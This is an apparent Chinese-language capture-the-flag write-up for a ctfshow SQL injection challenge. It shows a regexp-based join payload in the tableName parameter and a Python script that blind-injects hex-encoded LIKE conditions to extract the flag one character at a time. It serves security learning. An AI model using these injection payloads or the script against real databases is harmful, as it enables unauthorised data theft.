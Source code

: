 payload: tableName= ctfshow_user as a left join ctfshow_user as b on a.pass regexp([CONCAT](https://so.csdn.net/so/search?q=CONCAT&spm=1001.2101.3001.7020)(char(99),char(116),char(42)) ) 

$user_count=43. 这里根据返回结果43，就可以判断我们的payload是执行正确的，精确操作了数据表中带flag值的行：具体可以分析一下我们的payload。

又得盲注了，

```
import requests
import sys

url = 'http://74cb8d43-be70-4911-becb-97bc98d25e45.challenge.ctf.show/select-waf.php'
flag = 'ctfshow{'
letter = "0123456789abcdefghijklmnopqrstuvwxyz-{}"

def asc2hex(s):
    a1 = ''
    a2 = ''
    for i in s:
        a1+=hex(ord(i))
    a2 = a1.replace("0x","")
    return a2
for i in range(100):
    for j in letter:
        payload = {
            "tableName":"ctfshow_user group by pass having pass like {}".format("0x"+asc2hex(flag+j+"%"))
        }
        r = requests.post(url=url,data=payload).text
        if "$user_count = 1;" in r:
            flag+=j
            print(flag)
            break
            if j == "}":
                sys.exit()

```
